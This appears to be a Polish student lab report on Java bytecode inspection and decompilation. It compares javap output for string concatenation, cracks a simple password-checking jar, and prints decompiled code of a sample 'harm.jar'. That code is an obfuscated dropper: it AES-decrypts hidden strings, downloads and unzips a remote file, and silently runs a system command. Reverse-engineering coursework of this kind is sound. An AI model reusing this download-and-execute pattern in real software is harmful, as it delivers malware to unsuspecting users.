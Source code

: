 # APRO2 Lab5 Sprawozdanie

###### Tomasz Mycielski (304248)

## Zadanie 1

Na potrzeby zadania stworzyłem dwie klasy:
- `ConcatenatorPlusEquals`:
```java
package com.company.z1;

public class ConcatenatorPlusEquals {

    public static void main(String[] args) {
        String concatenation;
        concatenation = "String1" + "String2";
        System.out.println(concatenation);
    }
}
```
- `ConcatenatorStringBuilder`:
```java
package com.company.z1;

public class ConcatenatorStringBuilder {
    public static void main(String[] args) {
        StringBuilder stringBuilder;
        stringBuilder = new StringBuilder();
        stringBuilder.append("String1");
        stringBuilder.append("String2");
        String string;
        string = stringBuilder.toString();
        System.out.println(string);
    }
}
```

Wywołanie komendy `javap` na plikach `.class`, do których zostały skompilowane powyższe programy, wygenerowało następujący output:

- dla `ConcatenatorPlusEquals`:
```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
  public static void main(java.lang.String[]);
}
```

- dla 'ConcatenatorStringBuilder':
```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
  public static void main(java.lang.String[]);
}
```

Z powyższego wywnioskować można niewiele. Wiemy, że obydwa programy mają podobną strukturę — jest w nich tylko metoda `main(String[])`.

Program `javap` daje nam jednak do dyspozycji jeszcze opcję Disassemble the code, oznaczoną `-c`. Po wywołaniu komendy `javap -c` na tych samych plikach możemy dowiedzieć się o wiele więcej o programie:
- `ConcatenatorPlusEquals`
```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: ldc           #7                  // String String1
       2: astore_1
       3: aload_1
       4: invokedynamic #9,  0              // InvokeDynamic #0:makeConcatWithConstants:(Ljava/lang/String;)Ljava/lang/String;
       9: astore_1
      10: getstatic     #13                 // Field java/lang/System.out:Ljava/io/PrintStream;
      13: aload_1
      14: invokevirtual #19                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      17: return
}
```
- `ConcatenatorStringBuilder`
```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: new           #7                  // class java/lang/StringBuilder
       3: dup
       4: invokespecial #9                  // Method java/lang/StringBuilder."<init>":()V
       7: astore_1
       8: aload_1
       9: ldc           #10                 // String String1
      11: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      14: pop
      15: aload_1
      16: ldc           #16                 // String String2
      18: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      21: pop
      22: aload_1
      23: invokevirtual #18                 // Method java/lang/StringBuilder.toString:()Ljava/lang/String;
      26: astore_2
      27: getstatic     #22                 // Field java/lang/System.out:Ljava/io/PrintStream;
      30: aload_2
      31: invokevirtual #28                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      34: return
}
```
Otrzymaliśmy kod bajtowy Javy. Korzystając z jego dokumentacji dostępnej na [stronie](https://docs.oracle.com/javase/specs/jvms/se7/html/jvms-6.html) Oracle, możemy sporo dowiedzieć się o programie. Jednak już na pierwszy rzut oka widać, w której wersji programu wykorzystany został `StringBuilder`, a w której `+` do konkatenacji dwóch stringów. 

Moją szczególną uwagę zwrócił fakt, że w przypadku programu korzystającego ze `StringBuilder` możemy odczytać obydwa ciągi znaków, które ze sobą konkatenujemy, a w programie korzystającym z `+=` tylko drugi z nich.

Pliki `.class`, które podawałem do `javap` dostępne są w [lab5/out/production/lab5/com/company/z1/](./out/production/lab5/com/company/z1/).

## Zadanie 2

Do wykonania tego zadania wykorzystałem narzędzie [`Procyon`](https://github.com/ststeiger/procyon) na stronie [javadecompilers.com](javadecompilers.com). Po wysłaniu danego pliku na stronę dowiedziałem się, że program składa się z klas - `Coder` i `Main`:
- `Main.class`:
```java
package com.company;

import java.util.Date;
import java.time.Instant;
import java.text.SimpleDateFormat;

public class Main
{
    public static void main(final String[] array) {
        if (array.length != 1) {
            System.out.println("Wrong password!");
            return;
        }
        final String[] split = array[0].split("_");
        final int int1 = Integer.parseInt(new SimpleDateFormat("MM").format(Date.from(Instant.now())));
        if (split[0].length() == 7 && split[1].length() == 2) {
            if (split[0].equals(Coder.code("00PYe8m")) && Integer.parseInt(split[1]) == int1) {
                System.out.println("Good guess");
            }
            else {
                System.out.println("Wrong password!");
            }
        }
        else {
            System.out.println("Wrong password!");
        }
    }
}
```

- `Coder.class`:
```java
package com.company;

public class Coder
{
    static String code(final String s) {
        final StringBuilder sb = new StringBuilder();
        for (int i = 0; i < s.length(); ++i) {
            sb.append((char)(s.charAt(i) + '\u0001'));
        }
        return sb.toString();
    }
}
```

Mając do dyspozycji powyższy kod, postarałem się odwzorować [program](lab5/src/com/company/z2) w swoim IDE. Po analizie kodu ustaliłem, że hasło ma strukturę `[7 znaków] podkreślnik [2 znaki]`. Siedem pierwszych znaków to output metody `Coder.code("00PYe8m")`, a dwa ostatnie znaki to numer obecnego miesiąca.

Sprawdzam [hasło](lab5/password.txt):
```text
$ java -jar ./Tomasz_Jerzy_Mycielski_task_2.jar 11QZf9n_04
Good guess
```

## Zadanie 3

Zdekompilowałem plik `harm.jar` dekompilatorem [`CFR`](https://github.com/leibnitz27/cfr).
<details>
<summary>Zdekompilowany kod</summary>

```java
/*
 * Decompiled with CFR 0.150.
 */
package com.company.z3.com.crack.it;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.Key;
import java.util.zip.ZipEntry;
import java.util.zip.ZipInputStream;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class Run {
private static String key = "Kjf456UjOP14Ywte";

    private static byte[] a(String string) {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(string.length() / 2);
        for (int i = 0; i < string.length(); i += 2) {
            byteArrayOutputStream.write(Integer.parseInt(string.substring(i, i + 2), 16));
        }
        return byteArrayOutputStream.toByteArray();
    }

    private static String b(String string) throws Exception {
        byte[] arrby = Run.a(string);
        Cipher cipher = Cipher.getInstance("AES/CBC/NoPadding");
        SecretKeySpec secretKeySpec = new SecretKeySpec(key.getBytes(StandardCharsets.UTF_8), "AES");
        IvParameterSpec ivParameterSpec = new IvParameterSpec(key.getBytes(StandardCharsets.UTF_8));
        cipher.init(2, (Key)secretKeySpec, ivParameterSpec);
        byte[] arrby2 = cipher.doFinal(arrby);
        return new String(arrby2);
    }

    private static void c(String string) throws Exception {
        URL uRL = new URL(string);
        Path path = Paths.get(System.getProperty(Run.b("cf342300e78f3c21383678d00b71b225369f62782816ebd5986ae029b97f34f53fb78d0a05ece71c779ebbc83692cfe8919282626c7be128cfb6b8f285848ff5").trim()), new String[0]);
        Path path2 = Paths.get(path.toString(), Run.b("b92741a781f245538d5c75ab25330b9107832a09ef2c1d461a67507930557538e1fa2c3d572d2a384e4f9d399ef8c33d09467b3ab0454b41bab9350ce3774fdf").trim());
        try (BufferedInputStream bufferedInputStream = new BufferedInputStream(uRL.openStream());){
            int n;
            FileOutputStream fileOutputStream = new FileOutputStream(path2.toString());
            byte[] arrby = new byte[1024];
            while ((n = bufferedInputStream.read(arrby, 0, 1024)) != -1) {
                fileOutputStream.write(arrby, 0, n);
            }
        }
        catch (IOException iOException) {
            // empty catch block
        }
        Run.d(path2, path);
    }

    private static void d(Path path, Path path2) {
        try {
            if (!path.toFile().exists()) {
                return;
            }
            byte[] arrby = new byte[1024];
            ZipInputStream zipInputStream = new ZipInputStream(new FileInputStream(path.toString()));
            ZipEntry zipEntry = zipInputStream.getNextEntry();
            while (zipEntry != null) {
                int n;
                String string = Paths.get(path2.toString(), zipEntry.getName()).toString();
                FileOutputStream fileOutputStream = new FileOutputStream(string);
                while ((n = zipInputStream.read(arrby)) > 0) {
                    fileOutputStream.write(arrby, 0, n);
                }
                fileOutputStream.close();
                zipEntry = zipInputStream.getNextEntry();
            }
            zipInputStream.closeEntry();
            zipInputStream.close();
        }
        catch (Exception exception) {
            // empty catch block
        }
    }

    public static void main(String[] arrstring) throws Exception {
        String string = System.getProperty(Run.b("6474658359276b25720ff106097a2663f7d139752e9f95100ac045385fd51ee58f6a4a2c6d7f2701fed0ab2fff3a66bf43f78e79af22740fe718824cff7cda98").trim());
        String string2 = Run.b("054f1f395c9506dea62a842dd0a91602ef625bd2909bb87a2fbcab5a499e06013166de8c18bf9d982184785f07f59739c463c3d56327be198fcae6648f7314f4").trim();
        Run.c(Run.b("52ab37cab57dab5d50c38b06a37f12da4a093eadfd96502c3eef188a2c44e63a0cb4a60c16e3f41f0c02df264f492cf311030bd9be4a3f37db38755eef4527b9"));
        if (string.contains(string2)) {
            Runtime.getRuntime().exec(Run.b("2d830932f271350897857710196ec96453f8d261bc7f07181da0c2a10fbe2db2267c3526d61c01c1c28a004367774f64b687c76dcf6873995954a8d93f3d2f3c").trim());
        } else {
            Runtime.getRuntime().exec(Run.b("5673123e986e4c8ad4efa677a6d00b31b2007673a282e5ebc6a2738c0f603f36b372a9f85b2f598f3f76c5d43eb82e4183a123eea4031fcbb040c872e681e31f").trim());
        }
    }
}
```

</details>

Kod ten, po wprowadzeniu komentarzy wyjaśniających jego działanie, dostępny jest w katalogu [z3](lab5/src/com/company/z3/com/crack/it/).
